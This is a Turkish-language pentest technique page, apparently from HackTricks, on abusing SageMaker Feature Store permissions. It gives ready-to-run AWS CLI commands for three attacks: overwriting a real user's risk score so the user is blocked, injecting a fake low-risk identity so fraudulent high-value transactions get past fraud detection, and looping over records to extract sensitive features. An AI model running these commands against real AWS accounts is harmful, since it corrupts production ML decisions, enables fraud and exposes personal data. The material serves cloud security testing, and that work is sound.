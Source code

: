 # SageMaker Feature Store online store poisoning

{{#include ../../../../banners/hacktricks-training.md}}

`sagemaker:PutRecord`'ı OnlineStore etkin bir Feature Group üzerinde kötüye kullanarak online inference tarafından tüketilen canlı feature değerlerini üzerine yazın. `sagemaker:GetRecord` ile birleştirildiğinde saldırgan hassas feature'ları okuyabilir. Bu, modellere veya endpoints'e erişim gerektirmez.

## Gereksinimler
- İzinler: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Hedef: OnlineStore etkin bir Feature Group (genellikle real-time inference'ı destekler)
- Karmaşıklık: **LOW** - Basit AWS CLI komutları, model manipülasyonu gerekmiyor

## Adımlar

### Reconnaissance

1) OnlineStore etkin olan Feature Group'ları listeleyin
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
--region $REGION \
--query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
--output table
```
2) Hedef Feature Group'un şemasını anlamak için tanımlayın
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
--region $REGION \
--feature-group-name "$FG"
```
`RecordIdentifierFeatureName`, `EventTimeFeatureName` ve tüm özellik tanımlarına dikkat edin. Bunlar geçerli kayıtlar oluşturmak için gereklidir.

### Saldırı Senaryosu 1: Data Poisoning (Mevcut Kayıtların Üzerine Yazma)

1) Mevcut geçerli kaydı okuyun
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-001
```
2) Satır içi `--record` parametresini kullanarak kaydı kötü amaçlı değerlerle zehirleyin
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
--region $REGION \
--feature-group-name "$FG" \
--record "[
{\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
{\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
{\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
{\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
{\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
]" \
--target-stores OnlineStore
```
3) Zehirlenmiş verileri doğrulayın
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-001
```
**Etkisi**: Bu özelliği kullanan ML modelleri artık meşru bir kullanıcı için `risk_score=0.99` görecek, bu da işlemlerini veya hizmetlerini engelleyebilir.

### Saldırı Senaryosu 2: Kötü Niyetli Veri Enjeksiyonu (Sahte Kayıtlar Oluşturma)

Güvenlik kontrollerinden kaçmak için manipüle edilmiş özelliklere sahip tamamen yeni kayıtlar enjekte edin:
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
--region $REGION \
--feature-group-name "$FG" \
--record "[
{\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
{\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
{\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
{\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
{\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
]" \
--target-stores OnlineStore
```
Enjeksiyonu doğrulayın:
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-999
```
**Impact**: Saldırgan, düşük risk puanı (0.01) olan sahte bir kimlik oluşturarak dolandırıcılık tespiti tetiklenmeden yüksek değerli dolandırıcılık işlemleri gerçekleştirebilir.

### Saldırı Senaryosu 3: Hassas Veri Sızdırma

Gizli özellikleri çıkarmak ve model davranışını profillemek için birden fazla kaydı okuyun:
```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
echo "Exfiltrating data for ${USER_ID}:"
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string ${USER_ID}
done
```
**Etkisi**: Gizli özellikler (risk skorları, işlem örüntüleri, kişisel veriler) attacker tarafından açığa çıkabilir.

### Test/Demo Feature Group Oluşturma (İsteğe Bağlı)

Bir test Feature Group oluşturmanız gerekiyorsa:
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
ACC=$(aws sts get-caller-identity --query Account --output text)
FG=test-fg-$ACC-$(date +%s)
ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)

aws sagemaker create-feature-group \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-feature-name entity_id \
--event-time-feature-name event_time \
--feature-definitions "[
{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
{\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
{\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
]" \
--online-store-config "{\"EnableOnlineStore\":true}" \
--role-arn "$ROLE_ARN"

echo "Waiting for feature group to be in Created state..."
for i in $(seq 1 40); do
ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
done
fi

echo "Feature Group ready: $FG"
```
## Kaynaklar
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)
{{#include ../../../../banners/hacktricks-training.md}}
